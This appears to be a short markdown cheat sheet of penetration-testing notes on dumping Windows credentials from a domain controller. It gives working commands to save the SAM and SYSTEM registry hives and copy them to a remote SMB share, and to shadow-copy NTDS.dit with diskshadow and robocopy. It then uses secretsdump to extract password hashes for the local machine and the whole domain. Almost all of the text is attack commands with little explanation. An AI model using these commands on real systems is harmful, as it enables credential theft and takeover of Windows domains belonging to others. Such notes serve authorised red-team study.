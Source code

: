 # Local SAM Database extraction
We can take a copy of the HKLM SAM and SYSTEM hives
```powershell
[DC01]:> reg save hklm\sam c:\Windows\Tasks\SAM
The operation completed successfully.
 
[DC01]:> reg save hklm\system c:\Windows\Tasks\SYSTEM
The operation completed successfully.
 
[DC01]:> copy SAM \\192.168.1.210\shared\SAM
[DC01]:> copy SYSTEM \\192.168.1.210\shared\SYSTEM
```

```powershell
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

# Dumping the NTDS.dit

### Using diskshadow

Create a txt file contains commands if you don't have interactive shell.
```powershell
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

Use diskshadow.
```powershell
diskshadow.exe /s c:\temp\diskshadow.txt
```

Now the Z: is ready to use.
```powershell
cd Z:\windows\ntds
robocopy /b .\ C:\temp NTDS.dit
```

Grab it and get hashes
```bash
secretsdump.py -ntds ntds.dit -system system.bak LOCAL > hashes.txt
```